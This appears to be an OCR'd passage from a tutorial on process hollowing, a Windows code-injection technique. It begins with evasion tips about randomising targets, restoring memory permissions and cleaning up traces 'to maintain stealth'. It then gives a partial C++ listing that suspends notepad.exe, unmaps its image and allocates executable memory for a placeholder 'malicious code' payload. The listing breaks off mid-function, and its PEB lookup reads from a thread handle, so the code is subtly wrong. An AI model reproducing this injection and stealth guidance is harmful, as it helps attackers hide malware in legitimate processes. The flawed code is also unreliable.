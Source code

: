 Randomization: Randomize the memory regions and processes you target to avoid patterns that can be detected.

Error Handling: Ensure robust error handling. If any step fails, ensure the process is terminated to avoid leaving traces.

Memory Permissions: After writing the malicious code into the target process’s memory, change the memory permissions back to their original state to avoid detection.

Clean Up: After the malicious code has executed, clean up any traces to maintain stealth.

Using this technique, the attacker creates a process in a suspended state, then unmaps its image after locating its base address in the PEB. Once the unmapping is complete, the attacker maps a new image, such as the adversary’s shellcode runner, to the process and aligns its section. If this succeeds, the process resumes execution.

```
#include <windows.h>

#include <iostream>

int main() {

    // Step 1: Create a new process in a suspended state

    PROCESS_INFORMATION pi;

    STARTUPINFO si = { sizeof(si) };

    if (!CreateProcess(NULL, L"C:\\Windows\\System32\\notepad.exe", NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, &si, &pi)) {

        std::cerr << "Failed to create process." << std::endl;

        return 1;

    }

    // Step 2: Unmap the original executable from the process

    PVOID oldImageBase = NULL;

    SIZE_T readBytes;

    ReadProcessMemory(pi.hProcess, (PVOID)(pi.hThread + 0x10), &oldImageBase, sizeof(PVOID), &readBytes);  // Get ImageBase from PEB

    NtUnmapViewOfSection(pi.hProcess, oldImageBase);

    // Step 3: Allocate memory for the malicious executable

    char* maliciousCode = "...";  // Replace with actual malicious code or shellcode

    PVOID newImageBase = VirtualAllocEx(pi.hProcess, oldImageBase, strlen(maliciousCode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

    if (!newImageBase) {

        std::cerr << "Failed to allocate memory in target process." << std::endl;

        TerminateProcess(pi.hProcess, 0);

        CloseHandle(pi.hThread);

        CloseHandle(pi.hProcess);

```